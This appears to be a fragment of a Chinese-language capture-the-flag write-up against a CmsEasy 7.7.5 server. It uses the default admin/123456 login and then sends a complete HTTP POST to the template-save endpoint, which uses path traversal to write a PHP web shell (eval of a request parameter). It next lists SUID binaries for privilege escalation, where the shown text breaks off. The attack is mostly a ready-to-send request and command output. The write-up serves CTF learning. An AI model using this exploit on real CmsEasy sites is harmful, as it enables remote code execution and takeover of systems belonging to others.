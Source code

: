 右键源代码 `CmsEasy 7_7_5_20210919_UTF8`

后台弱口令 admin/123456

getshell 参考文章如下

[https://jdr2021.github.io/2021/10/14/CmsEasy_7.7.5_20211012存在任意文件写入和任意文件读取漏洞](https://jdr2021.github.io/2021/10/14/CmsEasy_7.7.5_20211012%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E5%92%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/#%E5%AE%89%E8%A3%85%E5%8C%85%E4%B8%8B%E8%BD%BD)

```http
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 39.99.146.97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.99.146.97/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=43a650lh9t803r774eahtu1gmk; loginfalse74c6352c5a281ec5947783b8a186e225=1; login_username=admin; login_password=a14cdfc627cef32c707a7988e70c1313
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php eval($_REQUEST[1]);phpinfo();?>
```

![image-20230809151650536](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091516570.png)

flag 位置, 需要提权

![image-20230809151932559](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091519590.png)

SUID

```shell
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/stapbpf
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/staprun
/usr/bin/at
/usr/bin/diff
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```
